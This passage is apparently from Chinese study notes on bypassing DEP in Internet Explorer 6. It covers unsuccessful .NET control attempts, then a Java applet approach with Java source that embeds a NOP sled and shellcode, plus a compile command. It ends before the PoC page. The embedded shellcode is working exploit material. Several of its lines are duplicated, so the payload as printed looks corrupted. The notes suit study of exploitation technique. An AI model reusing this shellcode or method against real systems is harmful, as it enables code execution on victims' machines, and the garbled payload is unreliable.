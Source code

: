测试：

我遇到了和[这篇文章](https://introspelliam.github.io/2017/07/12/0day/攻击DEP的方法-下/)的作者同样的问题：IE没有加载DLL，OD里也看不到这个模块，但是ActiveX控件却正常加载。我采取了以下尝试，均不成功：

- 使用regasm对该.NET控件注册
- 将IE6的安全级别全部调整为“低”
- 将IE6更新为IE7

待以后有进展再补充。

## 利用Java applet挑战DEP (unsolved)

> Java applet与.NET控件类似，都可以被IE浏览器加载到客户端，而且加载到IE进程的内存空间后这些控件都具有可执行性，所以我们可以将shellcode放在applet中。

准备材料：

- 具有溢出漏洞的ActiveX控件
- 包含有shellcode的Java applet
- 可以触发ActiveX控件中漏洞的PoC页面

建立ActiveX的过程与上一节完全一致，不再多说。下面来建立applet：

首先安装JDK 1.4.2。

然后编写如下代码并编译：

```java
import java.applet.*;
import java.awt.*;

public class Shellcode extends Applet {
		public void init(){
			  Runtime.getRuntime().gc();
				StringBuffer buffer=new StringBuffer(255);
				buffer.append("\u9090\u9090\u9090\u9090\u9090\u9090\u9090\u9090" +
            "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91" +
            "\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332" +
            "\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332" +
            "\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505" +
            "\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505" +
            "\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06" +
            "\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c" +
            "\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd" +
            "\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd" +
            "\u6853\u6a2d\u626f\u6768\u6f6f\u8b64\u53c4\u5050" +
            "\uff53\ufc57\uff53\uf857");
		}
}
```

```bash
javac Shellcode.java -target 1.1
```

最后建立PoC页面，将其与Shellcode.class放在同一目录下：
